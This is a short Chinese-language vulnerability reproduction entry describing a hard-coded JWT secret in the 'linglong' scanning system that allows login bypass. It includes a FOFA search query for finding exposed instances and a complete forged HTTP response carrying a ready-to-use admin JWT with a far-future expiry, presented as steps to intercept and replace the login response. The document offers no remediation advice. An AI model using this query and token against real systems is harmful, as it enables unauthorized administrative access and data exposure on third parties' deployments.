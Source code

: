 # linglong扫描系统存在JWT密钥硬编码登录绕过漏洞

# 一、漏洞简介
linglong扫描系统 存在密钥硬编码漏洞，未经身份验证验证得攻击者可构造JWT密钥绕着身份认证直接登录系统后台，造成信息泄露，使系统处于极不安全的状态。

# 二、影响版本
+ linglong扫描系统

# 三、资产测绘
+ fofa`icon_hash="684115083"`
+ 特征![1715938593763-5eb42a99-7424-48f3-9a08-2a19f8d41a80.png](./img/TdJAfNn7rXunQrWH/1715938593763-5eb42a99-7424-48f3-9a08-2a19f8d41a80-600755.png)

# 四、漏洞复现
1、登陆时抓包

![1715938889113-723830d7-8a12-4e5b-b91e-6543f792e612.jpeg](./img/TdJAfNn7rXunQrWH/1715938889113-723830d7-8a12-4e5b-b91e-6543f792e612-800818.jpeg)

2、拦截返回包

![1715938893647-287318dd-1f8b-4da2-81a3-7ee9b1bcd887.jpeg](./img/TdJAfNn7rXunQrWH/1715938893647-287318dd-1f8b-4da2-81a3-7ee9b1bcd887-481183.jpeg)

3、替换返回包为如下内容：

![1715938907183-713ef226-8b05-487e-a848-14919f3f7be4.jpeg](./img/TdJAfNn7rXunQrWH/1715938907183-713ef226-8b05-487e-a848-14919f3f7be4-695767.jpeg)

```plain
HTTP/1.1 200 OK
Access-Control-Allow-Credentials: true
Access-Control-Allow-Headers: Content-Type,AccessToken,X-CSRF-Token, Authorization,Token,X-TOKEN
Access-Control-Allow-Methods: POST, GET,PUT, DELETE, OPTIONS
Access-Control-Allow-Origin: *
Access-Control-Expose-Headers: Content-Length, Access-Control-Allow-Origin, Access-Control-Allow-Headers, Content-Type
Content-Type: application/json; charset=utf-8
Date: Fri, 17 May 2024 09:39:26 GMT
Content-Length: 43
Connection: close

{"code":200,"data":{"token":"eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwicGFzc3dvcmQiOiIxIiwiZXhwIjoxOTk5OTk5OTk5LCJpc3MiOiJsaW5nbG9uZyJ9.xAJf-cktK9WD5vXpfwTaIs6fSqVGZfG5BGnqDZwruMY"},"msg":"请求失败"}
```

![1715938718868-db511db4-0fa4-4453-b8a0-37ae18e96300.png](./img/TdJAfNn7rXunQrWH/1715938718868-db511db4-0fa4-4453-b8a0-37ae18e96300-390634.png)



> 更新: 2024-05-18 12:32:23  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/pb37q4h4d15zfwg1>